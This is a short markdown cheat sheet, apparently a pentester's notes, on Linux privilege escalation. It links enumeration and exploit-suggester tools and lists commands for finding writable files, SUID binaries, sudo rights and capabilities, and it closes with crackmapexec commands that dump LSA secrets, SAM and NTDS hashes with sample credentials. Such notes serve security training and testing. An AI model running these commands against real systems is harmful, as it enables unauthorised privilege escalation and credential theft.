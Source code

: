 # Privilege Escalation Linux
#### Automated tools
* [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)
#### Weak permissions
````bash
find / -not -type l -perm -o+w
````
#### SUID
* [gtfobins](https://gtfobins.github.io/)
````bash
find / -type f -perm -04000 -ls 2>/dev/null
````
#### SUDO
````bash
sudo -l
````
#### Kernel exploit
* [Exploits](https://github.com/lucyoa/kernel-exploits)
* [Linux exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
#### Capabilities
````bash
getcap -r / 2>/dev/null
````
#### Crackmapexec
````bash
# lsa 
crackmapexec smb 10.0.2.11 -u SOLOMON -p 12345678 --lsa
# sam 
crackmapexec smb 10.0.2.11 -u SOLOMON -p 12345678 --sam
# ntds
crackmapexec smb 10.0.2.11 -u SOLOMON -p 12345678 --ntds
````